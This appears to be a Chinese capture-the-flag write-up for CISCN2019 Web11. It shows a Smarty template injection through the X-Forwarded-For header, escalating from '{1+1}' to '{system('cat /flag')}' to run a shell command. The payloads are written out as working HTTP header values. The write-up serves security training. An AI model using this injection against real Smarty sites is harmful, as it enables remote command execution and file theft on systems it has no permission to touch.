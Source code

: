 # [CISCN2019 华东南赛区]Web11
![](<./img/Pasted image 20221210205542.png>)

---
首页长这样

![](<./img/Pasted image 20221210205615.png>)

有两个api，分别通过`/api`和`/xff`访问

同时页脚提示`Build With Smarty！`

可能是要寻找注入点

通过浏览器访问`/api`或`/xff`会出错，抓包发现301响应的`Location`没有加上端口号

![](<./img/Pasted image 20221210205905.png>)

`/xff`可以通过修改`X-Forwarded-For`请求头来控制响应的内容，推测使用`smarty`来渲染响应，于是尝试对`X-Forwarded-For`进行注入
```php
X-Forwarded-For: 123
```
> 123

```php
X-Forwarded-For: {1+1}
```
> 2

```php
X-Forwarded-For: {system('cat /flag')}
```

![](<./img/Pasted image 20221210213629.png>)

#Web #PHP #smarty #SSTI #RCE #HTTP #Header 